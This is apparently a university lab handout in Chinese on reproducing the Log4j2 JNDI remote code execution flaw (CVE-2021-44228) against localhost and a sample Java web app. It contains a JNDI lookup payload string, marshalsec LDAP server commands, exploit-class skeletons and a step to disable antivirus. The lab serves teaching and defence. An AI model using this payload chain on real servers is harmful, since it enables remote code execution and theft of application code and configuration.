

# Apache Log4j2漏洞触发

## 1.实验目的

+ 理解Apache Log4j2 漏洞的原理，掌握 Log4j 2 漏洞的触发

+ 加深对软件供应链安全的理解

## 2.实验环境

+ jdk 1.8

+ maven 3.8.4

+ IntelliJ IDEA

## 3.背景知识

### 3.1 Log4j 2

Apache Log4j 2 是 Apache 软件基金会下的一个开源的基于 Java 的日志记录工具。该日志框架被大量用于业务系统开发，用来记录日志信息。
2021 年 12 月 9 日晚，Log4j 2 的一个远程代码执行漏洞的利用细节被公开。该漏洞 CVE 编号为 CVE-2021-44228，受影响版本为2.0 <= Apache Log4j < 2.15.0-rc1。该漏洞的主要原理是 Log4j 2 日志框架提供了一种叫做 `lookup` 的功能，当日志中包括 `${}`，`lookup` 功能就会将表达式的内容替换为表达式解析后的内容，而不是表达式本身。Log4j 2 提供的 `lookup` 功能支持 JNDI 方式查询。并且在 Log4j 2 中 JNDI 解析是未做限制的，可以直接访问到远程对象，此时远程对象如果是恶意服务的话，那么就会造成注入，也就是说当用户可以控制记录日志时，可以构造恶意字符串来使服务器调用 JNDI 访问恶意对象，从而触发漏洞。


### 3.2 JNDI

JNDI（Java Naming and Directory Interface），即 Java 命名和目录接口，它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。其整体架构分层如下图





JNDI 的实现方式有很多种，目前主要采用 RMI 和 LDAP 的实现方式来复现 Log4j 2 漏洞。

+ RMI：java 中的远程方法调用
+ LDAP：一个轻量级目录访问协议

以 LDAP 为例，在复现漏洞实现攻击时，我们可以构建一个以  `${` 和 `}`  为开头和结尾的字符串，例如 `${jndi:ldap://127.0.0.1:1389/Exploit}` ，Log4j2 会去解析此字符串，通过 JNDI 下的 LDAP 协议请求到本地1389端口下的 Exploit 恶意 class 文件。


### 3.3 marshalsec

[marshalsec](https://github.com/mbechler/marshalsec) 是一款 Java 反序列化利用工具，本次实验使用 marshalsec 来启动 LDAP 服务

下载完成后在根目录打开 cmd 窗口，执行以下命令打包为 jar

```
mvn clean package -DskipTests
```

执行成功会生成一个 target 文件夹，进入此文件夹，并再打开一个 cmd 窗口，执行以下命令即可启动一个 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```


### 3.4 MySQL

MySQL 是一个关系型数据库管理系统，是最流行的关系型数据库管理系统之一。

MySQL 的安装与配置参考[这篇博客](https://www.sjkjc.com/mysql/install-on-windows/)

### 3.5 Redis

Redis 是一个高性能的 key-value 存储系统，在 4.2 的 Web 应用中会用到，但安装与否不影响实验

Redis的[安装地址](https://github.com/tporadowski/redis/releases)


### 3.6 Python

实验过程中可能需要使用 python 命令来运行一个 http server，需要在本地配置 python 环境。

python 环境的安装和配置请同学们自行 Google。

### 3.7 JDK 和 Maven

注意下载对应操作系统的 JDK, 并将其添加到环境变量。JDK 和 Maven 的配置：

+ [Windows jdk1.8下载地址](https://www.oracle.com/java/technologies/downloads/#java8-windows) 

+ [Maven 的安装配置方法](https://www.runoob.com/maven/maven-setup.html)

## 4.实验步骤

本实验提供 Log4j2Vul 和 White-Jotter 两个文件夹，[项目下载地址](https://github.com/syssec24/syssec24.github.io)

### 4.1 本地触发 Log4j 2 漏洞，弹出计算器

实验 1 的目录结构如下：

Log4j2Vul

```
├── Log4j2Ldap
│   ├── .idea
│   ├── src
│   │   ├── main
│   │   │   ├── java
│   │   │   │   └── com
│   │   │   │       └── Log4j.java
│   │   │   └── resources
│   │   └── test
│   ├── Log4j2Ldap.iml
│   └── pom.xml
└── Exploit.java
```

实验中需要完善以下文件：

+ Log4j2Ldap/src/main/java/com/Log4j2.java
+ Exploit.java

我们首先在本地尝试触发 Log4j 2 漏洞，执行一个简单的攻击脚本，打开本地计算器。

+ 打开 IDEA，导入所给的 Log4j2Vul 项目中的 Log4j2Ldap 项目

  > 注意此处应导入 Log4j2Ldap 项目，不要导入整个Log4j2Vul

+ 此项目引入的 Apache Log4j 为2.12.1版本

```xml
<dependency>
	<groupId>org.apache.logging.log4j</groupId>
	<artifactId>log4j-api</artifactId>
	<version>2.12.1</version>
</dependency>
<dependency>
	<groupId>org.apache.logging.log4j</groupId>
	<artifactId>log4j-core</artifactId>
	<version>2.12.1</version>
</dependency>
```

+ 完成打开本地计算器的攻击脚本的编写

```java
public class Exploit {
    static {
        System.out.println("Executing exploit!");
        System.out.println("Attack!");
        try {
            //TODO: open the local calculator here

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

> 提示1：可以使用 Java 的 Runtime.getRuntime().exec() 方法，该方法用于调用外部可执行程序或系统命令。

> 提示2：Windows 系统打开计算器的命令是 `calc.exe`

+ 将攻击脚本编译为 .class 文件

```
javac Exploit.java
```

+ 使用3.3中提到的 marshalsec 反序列化工具，在 marshalsec 的 target 目录下启动一个 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```
> 如果这一步报错提示端口被占用，可通过 `netstat -ano | findstr "port_number"` 查找占用进程，不重要的进程可以直接 kill。如果查找不到占用的进程，参考[这篇博客](https://blog.csdn.net/m0_47696151/article/details/117785566)。

+ 在 Exploit.class 文件所在目录下启动一个 web 服务，此处建议使用 python 命令启动 web 服务

```
python -m http.server 8100
```

> 如果为python2则命令为 python -m SimpleHTTPServer 8100，如果本地同时有 python2 和 python3，可以使用命令 python3 -m http.server 8100

+ 触发漏洞打开计算器，请补充以下代码

```java
public class Log4j {
    private static final Logger LOGGER = LogManager.getLogger(Log4j.class);
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        //TODO: fill in the "" to trigger Log4j
        LOGGER.error("");
    }
}
```

+ 执行代码触发漏洞，应当打开本地电脑的计算器

> 注意：此处需要关闭电脑的安全防护，否则可能出现电脑自动帮你拦截并删除恶意 class 文件的异常情况


### 4.2 在Java Web项目中触发漏洞

实验 2 中我们尝试在实际的Java Web项目中触发 Log4j2 的漏洞。目录结构如下：

White-Jotter

```
├── .idea
├── .mvn
├── data
├── logs
├── src
│   └── main
│       ├── java
│       │   └── com
│       │       └── gm
│       │           └── wj
│       └── resources
│           ├── public
│           ├── static
│           ├── application.properties
│           ├── log4j2.xml
│           └── wj.sql
├── target
├── .dockerignore
├── .gitignore
├── .travis.yml
├── LICENSE
├── mvnw
├── mvnw.cmd
├── pom.xml
└── wj.iml
```

需要修改的文件：

+ src/resources/application.properties

实验步骤：
+ 打开 IDEA，导入所给的 White-Jotter 项目
+ 在 mysql 中创建数据库 `wj` ，运行 src/main/resources 目录下的数据库脚本 wj.sql。具体方法是，新建数据库 `wj`，进入 `wj` 后执行命令 `source /path/to/wj.sql` 即可导入数据。
+ 启动 Redis 服务（可选）。
+ 修改 src/main/resources 目录下的 application.properties 文件，将数据库用户名和密码以及 Redis 的端口和密码改成自己电脑上对应的端口和密码。

    ```bash
    # src/main/resources/application.properties
    # 数据库相关配置
    spring.datasource.url=jdbc:mysql://DB_HOST:DB_PORT/wj?characterEncoding=UTF-8
    # 下方填写数据库用户名与密码（不需要双引号包裹）
    spring.datasource.username=YOUR_DB_USERNAME
    spring.datasource.password=YOUR_DB_PASSWORD
    spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver

    # Redis相关配置
    spring.redis.host=REDIS_HOST
    spring.redis.port=REDIS_PORT
    # Redis 数据库索引 (默认为0)
    spring.redis.database=0
    # Redis 服务器连接密码 (默认为空)
    spring.redis.password=
    ```


+ 运行项目，访问 localhost:8443/login，点击左上角“管理中心”进入登录页面。该项目默认用户名为 admin，密码为 123。


+ 接着是攻击脚本的编写，这里可以在本地计算机上任意位置新建 Java 文件编写脚本，脚本内容参考4.1步骤中的 Java 脚本，此处应该实现在服务端启动一个静态 Web 服务，请补充以下代码

```java
public class Exploit {
    static {
        try {
            //TODO: start a web service here

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

> 提示：此处可借鉴 4.1 中使用 python 命令启动 web 服务的方式，使用 Runtime.getRuntime().exec() 方法执行 python 命令


+ 接着同 4.1 的步骤，使用 marshalsec 启动一个 LDAP 的服务，并将攻击脚本编译为 .class 文件，在 class 文件所在目录下启动一个 web 服务。
+ 将 4.1 中触发漏洞时输入的字符串输入账号或者密码框中，触发漏洞实现对网站的攻击，在浏览器中输入 localhost: 加上攻击脚本中启动 web 服务的端口即可成功访问所启动的 web 服务，攻击成功应当可以看到如下图所示的静态网页


+ 此时即可任意下载获取 jave web 项目的后端代码以及配置文件。

> 在重复实验时，如果发现我们在 Exploit 中开启的原本可以访问的静态网页未发送数据，可能是端口被占用了，可以将占用进程 kill 掉

## 5.实验提交

+ 请各位同学独立完成本实验，并提交pdf格式的实验报告。实验报告需包含： 
    1. 实验过程描述 + 关键步骤截图（20%）
    2. 实验核心代码补充的截图（20%）
    3. 攻击结果的截图（10%）
    4. 思考题1：解释实验 1（本地弹计算器）的漏洞触发过程（30%）
    5. 思考题2：如何防护Apache Log4j2漏洞（20%）

+ 实验报告命名为：学号_姓名_lab1.pdf

  